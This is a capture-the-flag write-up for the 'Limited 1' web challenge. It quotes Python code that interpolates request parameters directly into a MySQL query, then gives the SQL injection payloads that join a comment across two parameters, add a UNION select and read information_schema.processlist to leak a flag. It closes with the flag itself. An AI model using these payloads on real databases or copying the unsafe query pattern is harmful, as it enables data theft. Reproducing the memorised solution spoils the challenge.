# Limited 1
Can you attack the menu system to read the flag that is in a comment inside the query itself?

Author: SamXML

(source provided as dist.tar.gz)

Note: This is the first in a series of 3 challenges

https://limited-app-974780027560.us-east5.run.app/

---

The challenge provided a web source code (which can be found [here](src/limited_src.tar)) using `Python + MySQL`

As we can see here, this challenge must be `SQL injection`

```Python
# I'm pretty sure the LIMIT clause cannot be used for an injection
    # with MySQL 9.x
    #
    # This attack works in v5.5 but not later versions
    # https://lightless.me/archives/111.html
    limit = str(request.args.get('limit') or '1')

    query = f"""SELECT /*{FLAG1}*/category, name, price, description FROM Menu WHERE price {price_op} {price} ORDER BY 1 LIMIT {limit}"""
    print('query:', query)
```

# Solution

At this first challenge in the series, we have to read the flag that is in a comment inside the query - which is `/*{FLAG1}*/`. The secret here is read from `information_schema.processlist` table. You guys can read more [here](https://dev.mysql.com/doc/refman/8.4/en/information-schema-processlist-table.html)

But before we can get `FLAG1`, we have to perform `SQL UNION attack` first.

I used this payload: `?price_op==1/*&limit=*/` so that the query string will become

```SQL
WHERE price = 1/* {price} ORDER BY 1 LIMIT*/
```

Add the UNION part, 1 found there are 4 columns at all

```sql
?price_op==1/*&limit=*/ union select null,null,null,null
```

Now, read the `processlist` table

```sql
?price_op==1/*&limit=*/ union select info,null,null,null from information_schema.processlist
```

# Flag: `wctf{bu7_my5ql_h45_n0_curr3n7_qu3ry_func710n_l1k3_p0576r35_d035_25785458}`